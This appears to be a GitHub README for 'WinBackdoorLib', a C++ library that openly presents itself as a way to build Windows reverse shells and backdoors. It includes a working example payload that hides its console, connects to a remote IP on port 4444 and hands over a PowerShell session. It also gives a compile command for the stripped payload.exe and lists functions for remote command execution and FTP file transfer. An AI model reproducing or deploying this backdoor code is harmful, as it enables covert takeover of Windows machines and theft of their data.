

# WinBackdoorLib
a simple module to create "reverse shell or backdoor" simply with Windows API




## example Payload :
  ```cpp
#include "backdoorlib.h"
#include <iostream>
#include <winsock2.h>
#include <ws2tcpip.h>
#include <string.h>
#include <wininet.h>
#include <windows.h>

#pragma comment(lib,"Ws2_32.lib")

#define REMOTE_ADDR "192.168.1.71"
#define REMOTE_PORT 4444

int main()
{
    hide_console();
    WSADATA wsa_version;
    SOCKET socks;

    struct sockaddr_in session;

    session.sin_addr.s_addr = inet_addr(REMOTE_ADDR);
    session.sin_family = AF_INET;
    session.sin_port = htons(REMOTE_PORT);

    WSAStartup(MAKEWORD(2,2),&wsa_version);
    socks = WSASocket(AF_INET, SOCK_STREAM,IPPROTO_TCP,0,0,0);
    int c = connect(socks,session);
    if (c == 0)
	{
        execute_powershell(socks);
    }
    return 0;
}
  ```

## Compile Payload :
  ### g++ backdoorlib.cpp reverse_powershell.cpp -o payload.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -lwininet
  

## List Function in Header :
```cpp
void hello_world(void);
char * raw_input(char *input_string);
int input(char *input_string);
void clear(void);
int substring_in_string(char *substring,char *string);
void print(char *string);
TCHAR *get_username();
int check_dir(char *pathname);
int tchar_substring_in_string(char *substring,TCHAR *string);
int StartsWith(const char *a, const char *b);
void hide_console(void);
void sleep(int number);
int connect(SOCKET socks_instance,struct sockaddr_in session);
int send(SOCKET socks_instance,char *buffer);
int recv(SOCKET socks_instance,char *buffer,int len);
void cmd_command(SOCKET socks_instance,char *command);
void powershell_command(SOCKET socks_instance,char*command);
void wsl_command(SOCKET socks_instance,char *command);
void execute_process(SOCKET socks_instance,char *process);
void execute_cmd(SOCKET socks_instance);
void execute_powershell(SOCKET socks_instance);
int download_to_ftp(char* filename, char* ftp_host, int ftp_port, char* ftp_user, char* ftp_pass);
int cd(char* path);
int download_on_ftp(char* filename, char* ftp_host, int ftp_port, char* ftp_user, char* ftp_pass);
```
